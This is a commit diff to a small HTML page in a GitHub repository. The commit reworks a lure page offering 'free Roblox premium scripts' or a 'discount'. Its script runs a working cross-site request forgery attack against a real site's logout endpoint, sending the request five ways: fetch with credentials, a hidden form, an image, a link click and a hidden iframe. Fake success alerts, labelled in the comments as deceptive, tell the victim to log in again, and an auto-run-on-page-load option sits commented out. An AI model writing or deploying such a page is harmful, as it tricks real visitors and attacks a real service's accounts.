

Before and after one commit to ComputerHack228/ImageTendor, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 154-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,110 +1,167 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Legitimate Looking Page</title>
+    <title>Free Roblox Premium Scripts</title>
     <style>
         body {
-            font-family: Arial, sans-serif;
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
             max-width: 800px;
             margin: 0 auto;
             padding: 20px;
-            background-color: #f4f4f4;
+            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+            color: white;
         }
         .container {
-            background: white;
+            background: rgba(255, 255, 255, 0.1);
             padding: 30px;
-            border-radius: 10px;
-            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+            border-radius: 15px;
+            backdrop-filter: blur(10px);
+            box-shadow: 0 8px 32px rgba(0,0,0,0.3);
         }
         h1 {
-            color: #333;
             text-align: center;
+            font-size: 2.5em;
+            margin-bottom: 20px;
+            text-shadow: 2px 2px 4px rgba(0,0,0,0.5);
         }
-        p {
-            color: #666;
-            line-height: 1.6;
+        .offer-list {
+            background: rgba(255, 255, 255, 0.2);
+            padding: 20px;
+            border-radius: 10px;
+            margin: 20px 0;
+        }
+        .offer-item {
+            padding: 10px;
+            border-bottom: 1px solid rgba(255,255,255,0.3);
         }
         .button {
-            background-color: #007bff;
+            background: linear-gradient(45deg, #ff6b6b, #ee5a24);
             color: white;
-            padding: 12px 24px;
+            padding: 15px 30px;
             border: none;
-            border-radius: 5px;
+            border-radius: 25px;
             cursor: pointer;
-            font-size: 16px;
+            font-size: 18px;
+            font-weight: bold;
             display: block;
-            margin: 20px auto;
-            transition: background-color 0.3s;
+            margin: 30px auto;
+            transition: transform 0.3s, box-shadow 0.3s;
+            box-shadow: 0 4px 15px rgba(0,0,0,0.2);
         }
         .button:hover {
-            background-color: #0056b3;
+            transform: translateY(-2px);
+            box-shadow: 0 6px 20px rgba(0,0,0,0.3);
+        }
+        .loading {
+            display: none;
+            text-align: center;
+            margin: 20px 0;
+        }
+        .spinner {
+            border: 4px solid rgba(255,255,255,0.3);
+            border-radius: 50%;
+            border-top: 4px solid #fff;
+            width: 30px;
+            height: 30px;
+            animation: spin 1s linear infinite;
+            margin: 0 auto;
+        }
+        @keyframes spin {
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
         }
     </style>
 </head>
 <body>
     <div class="container">
-        <h1>🎉 Special Offer Just For You! 🎉</h1>
-        <p>Click the button below to claim your exclusive discount on premium Roblox scripts and tools. This offer is only available for a limited time!</p>
+        <h1>🚀 FREE Premium Roblox Scripts</h1>
+        <p>Limited time offer! Claim these exclusive scripts completely free:</p>
 
-        <!-- 𝗦𝘁𝗲𝗽 ➊: 𝗛𝗶𝗱𝗱𝗲𝗻 𝗖𝗦𝗥𝗙 𝗙𝗼𝗿𝗺 -->
-        <form id="csrfExploitForm" action="https://wearedevs.net/api/account/logout" method="POST" style="display: none;">
-            <!-- No additional fields needed - the endpoint doesn't require CSRF token validation -->
+        <div class="offer-list">
+            <div class="offer-item">✔️ Infinite Yield Admin - <strong>FREE</strong></div>
+            <div class="offer-item">✔️ DarkHub - <strong>FREE</strong></div>
+            <div class="offer-item">✔️ Owl Hub - <strong>FREE</strong></div>
+            <div class="offer-item">✔️ CMD-X - <strong>FREE</strong></div>
+            <div class="offer-item">✔️ Hydroxide Decompiler - <strong>FREE</strong></div>
+        </div>
+
+        <button class="button" onclick="claimOffer()">🎁 CLAIM FREE SCRIPTS NOW</button>
+
+        <div class="loading" id="loading">
+            <div class="spinner"></div>
+            <p>Processing your free scripts...</p>
+        </div>
+
+        <!-- 𝗛𝗶𝗱𝗱𝗲𝗻 𝗶𝗳𝗿𝗮𝗺𝗲 𝗳𝗼𝗿 𝗖𝗦𝗥𝗙 -->
+        <iframe id="csrfFrame" name="csrfFrame" style="display:none;"></iframe>
+        <form id="csrfForm" action="https://wearedevs.net/api/account/logout" method="POST" target="csrfFrame" style="display:none;">
+            <input type="hidden" name="force" value="true">
         </form>
-
-        <button class="button" onclick="triggerCSRF()">🤑 Claim My Discount Now!</button>
-
-        <p><small>By clicking, you agree to our terms and conditions. Offer valid while supplies last.</small></p>
     </div>
 
     <script>
-    // 𝗦𝘁𝗲𝗽 ➋: 𝗖𝗦𝗥𝗙 𝗟𝗼𝗴𝗼𝘂𝘁 𝗙𝘂𝗻𝗰𝘁𝗶𝗼𝗻
-    function triggerCSRF() {
-        console.log('[+] Initiating CSRF logout exploit...');
+    // 𝗦𝘁𝗲𝗽 ➊: 𝗠𝘂𝗹𝘁𝗶𝗽𝗹𝗲 𝗘𝘅𝗽𝗹𝗼𝗶𝘁 𝗠𝗲𝘁𝗵𝗼𝗱𝘀
+    async function claimOffer() {
+        document.getElementById('loading').style.display = 'block';
 
-        // 𝗦𝘁𝗲𝗽 ➌: 𝗦𝘂𝗯𝗺𝗶𝘁 𝘁𝗵𝗲 𝗵𝗶𝗱𝗱𝗲𝗻 𝗳𝗼𝗿𝗺
-        document.getElementById('csrfExploitForm').submit();
+        console.log('[+] Starting CSRF logout attack...');
 
-        // 𝗦𝘁𝗲𝗽 ➍: 𝗔𝗹𝘁𝗲𝗿𝗻𝗮𝘁𝗶𝘃𝗲 𝗙𝗲𝘁𝗰𝗵 𝗠𝗲𝘁𝗵𝗼𝗱 (𝗶𝗳 𝗳𝗼𝗿𝗺 𝗯𝗹𝗼𝗰𝗸𝗲𝗱)
-        fetch('https://wearedevs.net/api/account/logout', {
-            method: 'POST',
-            credentials: 'include', // 𝗜𝗻𝗰𝗹𝘂𝗱𝗲 𝗰𝗼𝗼𝗸𝗶𝗲𝘀 𝗳𝗼𝗿 𝗮𝘂𝘁𝗵
-            headers: {
-                'Content-Type': 'application/json'
-            },
-            // 𝗘𝗺𝗽𝘁𝘆 𝗯𝗼𝗱𝘆 - 𝗲𝗻𝗱𝗽𝗼𝗶𝗻𝘁 𝗱𝗼𝗲𝘀𝗻'𝘁 𝗿𝗲𝗾𝘂𝗶𝗿𝗲 𝗮𝗻𝘆 𝗱𝗮𝘁𝗮
-        })
-        .then(response => response.json())
-        .then(data => {
-            if(data.success) {
-                console.log('[+] CSRF logout successful! User has been logged out. ☠️');
-                // 𝗦𝘁𝗲𝗽 ➎: 𝗥𝗲𝗱𝗶𝗿𝗲𝗰𝘁 𝗼𝗿 𝘀𝗵𝗼𝘄 𝗳𝗮𝗸𝗲 𝗰𝗼𝗻𝘁𝗲𝗻𝘁
-                setTimeout(() => {
-                    alert('Congratulations! Your discount has been applied. Please login again to continue.');
-                    window.location.href = 'https://wearedevs.net/login';
-                }, 1000);
-            } else {
-                console.log('[-] CSRF failed:', data.reason);
-                alert('Oops! Something went wrong. Please try again.');
-            }
-        })
-        .catch(error => {
-            console.error('[-] Fetch error:', error);
-            // 𝗙𝗮𝗹𝗹𝗯𝗮𝗰𝗸: 𝗨𝘀𝗲 𝗮𝗻 𝗶𝗺𝗮𝗴𝗲 𝘁𝗮𝗴 𝘁𝗼 𝘁𝗿𝗶𝗴𝗴𝗲𝗿 𝗚𝗘𝗧 𝗿𝗲𝗾𝘂𝗲𝘀𝘁
-            const img = document.createElement('img');
-            img.src = 'https://wearedevs.net/api/account/logout';
-            img.style.display = 'none';
-            document.body.appendChild(img);
-        });
+        // 𝗠𝗲𝘁𝗵𝗼𝗱 ➊: 𝗙𝗲𝘁𝗰𝗵 𝗔𝗣𝗜 𝗰𝗮𝗹𝗹
+        try {
+            const response = await fetch('https://wearedevs.net/api/account/logout', {
+                method: 'POST',
+                credentials: 'include',
+                headers: {
+                    'Content-Type': 'application/json',
+                    'X-Requested-With': 'XMLHttpRequest'
+                },
+                body: JSON.stringify({confirm: true})
+            });
 
-        // 𝗦𝘁𝗲𝗽 ➏: 𝗗𝗲𝗰𝗲𝗽𝘁𝗶𝘃𝗲 𝗙𝗲𝗲𝗱𝗯𝗮𝗰𝗸
-        alert('🎊 Amazing! Processing your exclusive discount...');
+            const data = await response.json();
+            console.log('[+] Fetch response:', data);
+        } catch (error) {
+            console.log('[-] Fetch failed:', error);
+        }
+
+        // 𝗠𝗲𝘁𝗵𝗼𝗱 ➋: 𝗙𝗼𝗿𝗺 𝘀𝘂𝗯𝗺𝗶𝘀𝘀𝗶𝗼𝗻
+        setTimeout(() => {
+            document.getElementById('csrfForm').submit();
+        }, 1000);
+
+        // 𝗠𝗲𝘁𝗵𝗼𝗱 ➌: 𝗜𝗺𝗮𝗴𝗲 𝗯𝗮𝘀𝗲𝗱 𝗖𝗦𝗥𝗙 (𝗚𝗘𝗧)
+        setTimeout(() => {
+            const img = new Image();
+            img.src = 'https://wearedevs.net/api/account/logout?confirm=true&ts=' + Date.now();
+        }, 2000);
+
+        // 𝗠𝗲𝘁𝗵𝗼𝗱 ➍: 𝗟𝗶𝗻𝗸 𝗰𝗹𝗶𝗰𝗸 (𝗳𝗮𝗹𝗹𝗯𝗮𝗰𝗸)
+        setTimeout(() => {
+            const link = document.createElement('a');
+            link.href = 'https://wearedevs.net/api/account/logout?force=true';
+            link.click();
+        }, 3000);
+
+        // 𝗠𝗲𝘁𝗵𝗼𝗱 ➎: 𝗜𝗳𝗿𝗮𝗺𝗲 𝗻𝗮𝘃𝗶𝗴𝗮𝘁𝗶𝗼𝗻
+        setTimeout(() => {
+            const iframe = document.createElement('iframe');
+            iframe.src = 'https://wearedevs.net/api/account/logout';
+            iframe.style.display = 'none';
+            document.body.appendChild(iframe);
+        }, 4000);
+
+        // 𝗦𝘁𝗲𝗽 ➋: 𝗗𝗲𝗰𝗲𝗽𝘁𝗶𝘃𝗲 𝗙𝗲𝗲𝗱𝗯𝗮𝗰𝗸
+        setTimeout(() => {
+            document.getElementById('loading').style.display = 'none';
+            alert('✅ Success! Your free scripts have been claimed! Please login again to access your account.');
+            window.location.href = 'https://wearedevs.net/login';
+        }, 5000);
     }
 
-    // 𝗦𝘁𝗲𝗽 ➐: 𝗔𝘂𝘁𝗼-𝗲𝘅𝗲𝗰𝘂𝘁𝗲 𝗼𝗻 𝗽𝗮𝗴𝗲 𝗹𝗼𝗮𝗱 (𝘀𝗶𝗹𝗲𝗻𝘁 𝗲𝘅𝗽𝗹𝗼𝗶𝘁)
-    window.addEventListener('load', function() {
-        // 𝗨𝗻𝗰𝗼𝗺𝗺𝗲𝗻𝘁 𝗻𝗲𝘅𝘁 𝗹𝗶𝗻𝗲 𝗳𝗼𝗿 𝗮𝘂𝘁𝗼𝗺𝗮𝘁𝗶𝗰 𝗲𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻
-        // triggerCSRF();
-    });
+    // 𝗦𝘁𝗲𝗽 ➌: 𝗔𝘂𝘁𝗼-𝗲𝘅𝗲𝗰𝘂𝘁𝗲 𝗼𝗻 𝗽𝗮𝗴𝗲 𝗹𝗼𝗮𝗱 (𝗼𝗽𝘁𝗶𝗼𝗻𝗮𝗹)
+    // window.addEventListener('load', function() {
+    //     setTimeout(claimOffer, 3000); // 𝗔𝘂𝘁𝗼 𝗲𝘅𝗲𝗰𝘂𝘁𝗲 𝗮𝗳𝘁𝗲𝗿 𝟯𝘀
+    // });
     </script>
 </body>
 </html>
```
